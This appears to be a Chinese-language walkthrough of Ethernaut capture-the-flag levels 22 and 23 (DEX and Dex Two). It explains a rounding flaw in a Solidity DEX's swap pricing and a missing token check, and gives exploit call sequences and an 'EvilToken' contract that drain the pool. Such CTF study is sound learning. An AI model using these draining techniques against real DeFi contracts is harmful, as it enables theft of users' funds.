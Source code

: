 ```
    function attack(address _shopAddr) external {
        IShop(_shopAddr).buy();
    }
}
```

## 22. DEX
player 有 10 token1 及 10 token2，DEX 有 100 token1 及 100 token2

目標將 DEX 其中一種 token 清０

`swap()` 利用 `get_swap_price()` 為 amount
```solidity
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }
```
`get_swap_price()` 直接用 balance 相除計算，可能會有誤差（3/2=1)
```solidity
  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```


### Exploit
```
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

## 23. Dex Two
榨乾 DEX 的 token1 及 token2

與 22. 相比，`swap()` 缺少一行：
```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```
所以拿別的 token 做 swap 就完事了

### Exploit
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract EvilToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("EvilToken", "EVL") {
        _mint(msg.sender, initialSupply);
    }
}
```
```javascript
await contract.swap(evlToken1, t1, 100)
```